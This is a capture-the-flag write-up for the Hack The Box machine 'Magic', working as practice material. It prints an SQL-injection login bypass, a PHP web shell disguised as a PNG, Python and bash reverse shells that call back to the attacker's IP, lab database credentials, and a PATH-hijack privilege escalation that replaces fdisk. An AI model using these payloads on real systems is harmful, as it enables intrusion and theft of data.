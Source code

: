 # 🪄 HTB Walkthrough – making a magical walkthrough with Magic

### 🧠 TL;DR

* SQLi login bypass
* Upload bypass via magic bytes
* Reverse shell via Python
* Credentials leakage → Privilege escalation
* `.htaccess` blocks direct access to malicious files
* Custom binary `sysinfo` used for final foothold

***

### 🧩 Step 1 – Login Bypass

Classic SQL injection:

```sql
' OR 1=1; -- 
```

Logged in as admin, because who needs credentials when you've got logic flaws?

### 🎭 Step 2 – File Upload Bypass via Magic Bytes

Bypass the upload filter expecting valid PNG/JPG magic bytes:

```
head -c 150 image.png > shell.php.png
```

Append web shell payload:

```
<?php
if (isset($_REQUEST["cmd"])) {
    echo "<pre>";
    $cmd = ($_REQUEST["cmd"]);
    system($cmd);
    echo "</pre>";
    die;
}
?>

```

Uploaded as `shell.php.png`, slipped past MIME and magic number check.

***

### 📞 Step 3 – Reverse Shell

Tried bash reverse shells → ❌\
Checked for Python → ✅

Crafted Python3 reverse shell:

```
http://10.10.10.185/images/uploads/image.php.png?cmd=export%20RHOST=%2210.10.14.3%22;export%20RPORT=443;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22/bin/bash%22)%27
```

```
export RHOST="10.10.14.3";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### 🔐 Step 4 – Credential Discovery

Found in `db.php5`:

```
private static $dbName = 'Magic';
private static $dbHost = 'localhost';
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

<figure><img src="../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

### 🔎 Step 5 – Enumerating MySQL Binaries

`mysql` client missing? No problem.

```
for dir in ${PATH//:/ }; do
  ls "$dir"/mysql* 2>/dev/null
done
```

<figure><img src="../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Used `mysqldump` to extract all DBs:

```
mysqldump -u theseus -p --all-databases > all_db_backup.sql

```

```
cat all_db_backup.sql | base64 > all_db_backup.sql.base64

```

```
cat all_db_backup.sql.base64 | base64 -d > all_db_backup.sql.base64

```

found password

```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

### 🧗‍♂️ Step 6 – Privilege Escalation

Switched user:

```
su theseus
```

Checked for custom binaries: (i did look through the walkthrough, i did get it in ,Linpease but i skipped it while reading through it)

```
/bin/sysinfo

```

* a did a strings and got it know it was using a couple of binaries with a full path not set

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.3/80 0>&1' > fdisk
chmod +x fdisk
export PATH="/home/theseus:$PATH"
/bin/sysinfo

```

* Spun an nc listen on my machine on port 80 and got root



### 🛑 Post-Root Notes

#### ❌ Couldn't download SQL backup via browser?

Blocked by `.htaccess`:

<figure><img src="../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

📂 Upload Filter Breakdown (PHP Logic)

```
$allowed = array('2', '3');
<SNIP>

if ($uploadOk === 1) {
        // Check if image is actually png or jpg using magic bytes
        $check = exif_imagetype($_FILES["image"]["tmp_name"]);
        if (!in_array($check, $allowed)) {
            echo "<script>alert('What are you trying to do there?')</script>";
            $uploadOk = 0;
        }
    }


<SNIP>
```

**🔎 `$allowed = array('2', '3');` — What does it mean?**

This line is checking **magic numbers** (also called **image type constants**) returned by PHP’s `exif_imagetype()` function.

**🧬 `exif_imagetype()` returns an integer, not a string.**

Here’s what those numbers mean:

| Return Value | Image Type      |
| ------------ | --------------- |
| `1`          | GIF             |
| `2`          | JPEG            |
| `3`          | PNG             |
| `4`          | SWF             |
| `5`          | PSD             |
| `6`          | BMP             |
| `7`          | TIFF (Intel)    |
| `8`          | TIFF (Motorola) |
| `9`          | JPC             |
| `...`        | etc.            |

### 🧠 Final Thoughts

This box covers:

* Basic SQLi
* Image upload filtering bypass
* Manual reverse shell crafting
* Hunting binaries for data extraction
* Blocking mechanisms using `.htaccess`

Great blend of web exploitation and privilege escalation.
